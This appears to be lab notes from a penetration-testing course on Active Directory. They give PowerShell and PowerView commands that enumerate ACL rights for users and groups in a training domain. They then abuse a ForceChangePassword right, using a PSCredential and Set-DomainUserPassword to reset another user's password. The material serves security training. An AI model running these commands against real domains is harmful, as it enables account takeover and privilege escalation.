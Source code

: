 #### A Useful foreach Loop
```
PS > foreach($line in [System.IO.File]::ReadLines("C:\Users\htb-student\Desktop\ad_users.txt")) {get-acl  "AD:\$(Get-ADUser $line)" | Select-Object Path -ExpandProperty Access | Where-Object {$_.IdentityReference -match 'INLANEFREIGHT\\wley'}}
```

#### Further Enumeration of Rights Using damundsen
```
PS > $sid2 = Convert-NameToSid damundsen
PS > Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid2} -Verbose
```

#### Investigating the Help Desk Level 1 Group with Get-DomainGroup
```
PS > Get-DomainGroup -Identity "Help Desk Level 1" | select memberof
```

#### Investigating the Information Technology Group
```
PS > $itgroupsid = Convert-NameToSid "Information Technology"
PS > Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $itgroupsid} -Verbose
```

#### Looking for Interesting Access
```
PS > $adunnsid = Convert-NameToSid adunn 
PS > Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $adunnsid} -Verbose
```

* * *

## ACL Abuse Tactics
```powershell
PS > Import-Module .\PowerView.ps1
```

### ForceChangePassword
So, first, we must authenticate as <user1> because he can force change the password of the user <user2>. We can start by opening a PowerShell console and authenticating as the <user1> user. Otherwise, we could skip this step if we were already running as this user. To do this, we can create a PSCredential object.

```powershell
# Creating a PSCredential Object
PS > $SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force
PS > $Cred = New-Object System.Management.Automation.PSCredential('<INLANEFREIGHT>\<user1>', $SecPassword) 

# Creating a SecureString Object**
PS > $user2Password = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force

# Changing the User's Password
PS > Set-DomainUserPassword -Identity user2 -AccountPassword $user2Password -Credential $Cred -Verbose
```
We can see that the command completed successfully, changing the password for the target user while using the credentials we specified for the user1 that we control. 
